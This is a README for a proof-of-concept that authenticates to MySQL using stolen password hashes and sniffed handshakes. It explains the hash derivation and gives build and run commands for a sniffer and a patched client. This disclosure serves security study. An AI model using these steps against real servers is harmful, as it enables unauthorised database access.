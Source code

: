 mysql-unsha1
============

Authenticate against a MySQL server without knowing the cleartext password.

Abstract
--------

This PoC shows how it is possible to authenticate against a MySQL server under
certain circumstances without knowing the cleartext password when the [Secure
Password Authentication] authentication plugin (aka `mysql_native_password`) is
used.

The main prerequisites are:

- to know the hashed password for a certain user (`password` column of the
  `mysql.user` table);

- to be able to sniff a successful authentication handshake (i.e., no SSL).

MySQL server passwords
----------------------

By default, passwords are stored in the `mysql.user` table and are hashed using
the `PASSWORD` function which is just a two-stage SHA1 digest:

```
> SELECT user, password FROM mysql.user;
+------------------+-------------------------------------------+
| user             | password                                  |
+------------------+-------------------------------------------+
| root             | *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19 |
+------------------+-------------------------------------------+

> SELECT PASSWORD('password');
+-------------------------------------------+
| PASSWORD('password')                      |
+-------------------------------------------+
| *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19 |
+-------------------------------------------+

> SELECT SHA1(UNHEX(SHA1('password')));
+------------------------------------------+
| SHA1(UNHEX(SHA1('password')))            |
+------------------------------------------+
| 2470c0c06dee42fd1618bb99005adca2ec9d1e19 |
+------------------------------------------+
```

The handshake
-------------

After the TCP connection phase, initiated by the client, the MySQL
authentication [handshake] continues as follows (simplified):

1. the server sends a `Server Greeting` packet containing a *salt* (`s`);

2. the client replies with a `Login Request` packet containing the session
   password (`x`), computed as follows:

        x := SHA1(password) XOR SHA1(s + SHA1(SHA1(password)))

    where `password` is the cleartext password as provided by the user and `+`
    is a mere string concatenation operator.

3. the server can verify the *challenge* and authenticate the client if:

        SHA1(x XOR SHA1(s + SHA1(SHA1(password)))) = SHA1(SHA1(password))

The exploit
-----------

With enough information an attacker is able to obtain `SHA1(password)` and
therefore to solve the server challenge without the knowledge of the cleartext
password.

Let:

- `h` be the hashed password obtained from the `mysql.user` table (i.e.,
  `SHA1(SHA1(password))`);

- `s` and `x` be the salt and the session password respectively obtained from
   the sniffed handshake.

The first-stage SHA1 can be obtained as follows:

    SHA1(password) = x XOR SHA1(s + h)

Tools
-----

To ease the reproducibility of this exploit this PoC provides two tools:

- a simple sniffer to extract and check the handshake information either live or
  offline from a PCAP file;

- a patch for MySQL client which allows to treat the prompted passwords as SHA1
  digests instead of cleartext.

### Build the sniffer

To produce `mysql-unsha1-sniff` just run `make` (or `make static` to produce a
statically linked executable). The Makefile will look for the `uthash.h` file in
this directory and will download it if not found.

Run `mysql-unsha1-sniff` without arguments to show the usage message.

According to the previous example:

    sudo ./mysql-unsha1-sniff -i lo 127.0.0.1 3306 2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19:root

If no account information is provided the tool will only display the salt and
the session password.

### Build a patched MySQL client

This may take some time:

1. download and extract the MySQL source code:

        wget https://github.com/mysql/mysql-server/archive/23032807537d8dd8ee4ec1c4d40f0633cd4e12f9.zip
        unzip 23032807537d8dd8ee4ec1c4d40f0633cd4e12f9.zip
        cd mysql-server-23032807537d8dd8ee4ec1c4d40f0633cd4e12f9/

2. apply the patch:

        patch -p1 </path/to/mysql-server-unsha1.patch

3. build the client only with:

        mkdir build
        cd build
        cmake -DDOWNLOAD_BOOST=1 -DWITH_BOOST=boost -DWITHOUT_SERVER:BOOL=ON ..
        make -j$(nproc)

4. the client executable will be in `client/mysql`, optionally install it
   globally and delete the whole source code:

        sudo cp client/mysql /usr/local/bin/mysql-unsha1

Use `mysql-unsha1` as the regular MySQL client, just remeber that the
`--password[=password], -p[password]` option now reuqires a 40-digit hexadecimal
SHA1 string. According to the previous example:

    mysql-unsha1 -h 127.0.0.1 -P 3306 -u root --password=5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8

Where:

```
> SELECT SHA1(UNHEX('5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8'));
+---------------------------------------------------------+
| SHA1(UNHEX('5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8')) |
+---------------------------------------------------------+
| 2470c0c06dee42fd1618bb99005adca2ec9d1e19                |
+---------------------------------------------------------+
```

and `2470c0c06dee42fd1618bb99005adca2ec9d1e19` is the hashed password stored in
the `mysql.user` table.

[Secure Password Authentication]: https://dev.mysql.com/doc/internals/en/secure-password-authentication.html
[handshake]: https://dev.mysql.com/doc/internals/en/plain-handshake.html
